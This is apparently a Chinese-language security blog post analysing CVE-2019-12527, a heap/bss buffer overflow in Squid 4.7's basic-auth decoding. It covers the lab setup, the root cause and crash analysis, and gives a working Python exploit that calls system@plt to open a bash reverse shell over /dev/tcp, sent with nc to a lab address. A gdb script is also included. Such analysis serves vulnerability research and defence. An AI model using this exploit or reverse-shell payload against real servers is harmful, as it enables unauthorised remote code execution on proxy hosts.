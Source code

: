 ```yaml
---
layout: post
title:  "CVE-2019-12527-Squid缓冲区溢出漏洞分析"
date:   2019-08-29 11:30:00
categories: 漏洞分析
tags: [漏洞分析]
---
```


<!-- more -->

### 漏洞分析

环境搭建：

Linux osboxes 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

下载地址：

http://www.squid-cache.org/Versions/v4/squid-4.7.tar.gz

编译：

```
./configure
make -j4
sudo make install
```
安装后地址：

/usr/local/squid/sbin/squid

在配置文件/usr/local/squid/etc/squid.conf最后添加：

```
cache_access_log /var/squid/access.log
cache_log /var/squid/cache.log
cache_store_log /var/squid/store.log
并给这些文件赋值777
```

squid版本: 4.7

漏洞点在： src/HttpHeader.cc:

![](../image/2019-08-29-Squid缓冲区溢出漏洞分析/1.jpg)

decodeAuthToken数组用于存放base解密后的数据，并且没有边界判断，所以造成溢出。

而decodeAuthToken定义成静态变量，位于程序的.bss区，可以覆盖到其他全局变量，造成崩溃，但崩溃会重新起一个进程，主进程并不会崩溃。

崩溃现场：

![](../image/2019-08-29-Squid缓冲区溢出漏洞分析/2.jpg)

从图中我们可以看出，我们可以call一个地址，并且rdi 可控，相当于我们可以执行带一个参数的函数。查看程序的保护措施：

![](../image/2019-08-29-Squid缓冲区溢出漏洞分析/5.jpg)

并未开启随机化，所以got和plt的地址固定，可以通过调用system@plt来执行命令，在rdi指向的地址0xc66488上填充要执行的命令。

![](../image/2019-08-29-Squid缓冲区溢出漏洞分析/4.jpg)


decodeAuthToken起始位置：0xc64140 -> this=0xc66488 偏移为:0x2348

poc脚本：

```
from pwn import *
import binascii
import base64
import sys
import os
import time

command = []
path = '/tmp/x\0'
command.append("echo -n 'bash -i >& /d'>>"+path)
command.append("echo -n 'ev/tcp/127.0.'>>"+path)
command.append("echo -n '0.1/1234 0>&1'>>"+path)
command.append("chmod +x "+path)
command.append("bash "+path)

for i in command:
    payload = "GET cache_object://192.168.148.151/info"
    payload += " HTTP/1.1\n"
    payload += "HOST: 192.168.148.151\n"
    payload += "Authorization: Basic "

    content = "A:B"+'\x40\xa2\x42'*0xbc1 + '\x40\xa2'
    print i

    content += i # 填充 rdi 
    content += '\xa2'*(0x28-len(i))
    content += p64(0x4ee266) # system@plt 地址
    content = base64.b64encode(content)
    payload += content
    payload += '\n\n'

    with open("./poc","w+") as f:
        f.write(payload)
    f.close()
    time.sleep(1)
    os.system("nc 192.168.148.151 3128 < ./poc > 0")

```
gdb 调试脚本：

```
#!/bin/bash
python ./poc.py
sudo gdb\
        -ex "file /usr/local/squid/sbin/squid" \
        -ex "attach $(ps -ef | grep squid | grep -v grep |grep kid| awk '{print $2}')" \
        -ex "b base64_decode_update"\
        -ex "continue"

```

运行效果图：

![](../image/2019-08-29-Squid缓冲区溢出漏洞分析/6.png)

得到的是一个nobody权限

虽然程序未开启随机化，但是不同条件下编译，生成的程序地址、got和plt地址不同，所以该poc不能通用。

### 参考链接

https://www.thezdi.com/blog/2019/8/22/cve-2019-12527-code-execution-on-squid-proxy-through-a-heap-buffer-overflow
